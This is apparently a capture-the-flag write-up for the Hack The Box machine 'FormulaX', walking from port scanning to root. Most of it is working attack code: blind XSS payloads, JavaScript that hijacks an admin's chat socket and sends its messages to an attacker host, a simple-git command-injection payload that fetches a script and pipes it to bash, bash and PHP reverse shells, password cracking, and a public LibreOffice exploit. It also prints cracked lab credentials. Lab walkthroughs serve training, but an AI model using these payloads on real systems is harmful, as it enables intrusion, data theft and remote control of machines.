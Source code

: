 # [FormulaX](https://app.hackthebox.com/machines/FormulaX)

```bash
nmap -p- --min-rate 10000 10.10.11.6 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.6 -Pn
```

![alt text](img/image-1.png)


While I open web application, there's page which I need to make registration and login.


![alt text](img/image-2.png)



Then I find `Contact` page which I can submit user input data. I submit `Blind XSS` payload here and it works.


```bash
<img src=x onerror="document.location='http://10.10.14.4:8080/'"/>
```

![alt text](img/image-3.png)


I can see my http.server's logs for this website.

![alt text](img/image-4.png)


As I know that this is `Chatbot` application, there can be some information leakage while interacting with admin.


So that's why, I wrote below malicious javascript for my xss to be triggered by admin user's browser.
```javascript
const script= document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load',function(){
    const res=axios.get(`/user/api/chat`);
    const socket=io('/',{withCredentials:true});
    socket.on('message',(my_message) => {
        fetch("http://10.10.14.4:8080/?d="+btoa(my_message))
    });
    socket.emit('client_message','history');
});
```


![alt text](img/image-5.png)


Then, we need to open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.4 8080
```

![alt text](img/image-7.png)

Let's submit our XSS payload.
```bash
<img src=x onerror="var script1=document.createElement('script'); script1.src='http://10.10.14.4:8080/script.js';document.head.appendChild(script1);"/>
```

![alt text](img/image-6.png)


Let's decode this messages via `base64`.

![alt text](img/image-8.png)


So, we need to add `dev-git-auto-update.chatbot.htb` domain name into `/etc/hosts` file for resolving purposes.


Once I open web application, I see below stuff.

![alt text](img/image-9.png)


On bottom side of web page, I see `simple-git v3.14`, let's look at publicly known exploits.

I find [CVE-2022-25912](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221). Let's use this for our payload.


I submit below blind `Command Injection`payload to check  `RCE`.
```bash
ext::sh -c curl% http://10.10.14.4:8080/dr4ks
```

![alt text](img/image-10.png)


I can see on my http.server's logs that worked or not.

![alt text](img/image-11.png)


Let's change this endpoint via `reverse shell` payload and get shell.

My reverse shell bash script is below.
```bash
/bin/sh -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

![alt text](img/image-12.png)


```bash
ext::sh -c curl% http://10.10.14.4:8080/dr4ks.sh|bash
```

![alt text](img/image-14.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-13.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-15.png)


While running `netstat -ntpl`, I see `27017` means `Mongo` database and type `mongo` to terminal for accessing.

![alt text](img/image-16.png)


I take user's hash and try to crack with `hashcat`.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-17.png)


frank_dorky:manchesterunited


Let's do `ssh` into machine via this credentials.
```bash
ssh frank_dorky@10.10.11.6
```


user.txt

![alt text](img/image-18.png)


For `Privilege Escalation`, I just run `netstat -ntpl` to find another services, I found one service for port `3000`.

![alt text](img/image-19.png)


Let's do `Local Port Forwarding` to see this application.
```bash
ssh -L 3000:localhost:3000 frank_dorky@10.10.11.6
```

I opened web application and see below stuff.

![alt text](img/image-20.png)


I find such an [blog](https://community.librenms.org/t/adding-admin-users-on-librenms/20782) to add `admin` user.

Let's do this on `/opt/librenms` directory.

![alt text](img/image-21.png)


But there I have problem about `resolving`, I need to add this record to my `/etc/hosts` file.

![alt text](img/image-22.png)


I switched into `Alert Templates` and see some stuff here I will add my malicious php reverse shell code.

```bash
@php
system("{revshell_payload}");
@endphp
```

![alt text](img/image-23.png)


While clicking `create template`, I get reverse shell from port `1337`.

![alt text](img/image-24.png)


Again, make interactive shell.

![alt text](img/image-25.png)


I read `.custom.env` file and finds sensitive credentials.

![alt text](img/image-26.png)


kai_relay: mychemicalformulaX


I used this credentials to login into machine. For `Privilege Escalation`, I just run `sudo -l` command to check privleges.

![alt text](img/image-27.png)


I find [exploit](https://www.exploit-db.com/exploits/46544), let's use this.

I change last line `calc.exe` with `/tmp/shell.sh`

```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

![alt text](img/image-28.png)


Next we need to run this script.
```bash
sudo /usr/bin/office.sh  # to open port 2002
```

Then run our exploit against target.
```bash
python3 exploit.py --host 127.0.0.1 --port 2002
```

My `/tmp/shell.sh` file is executed, that's why I get reverse shell from port `1337`.

root.txt

![alt text](img/image-29.png)

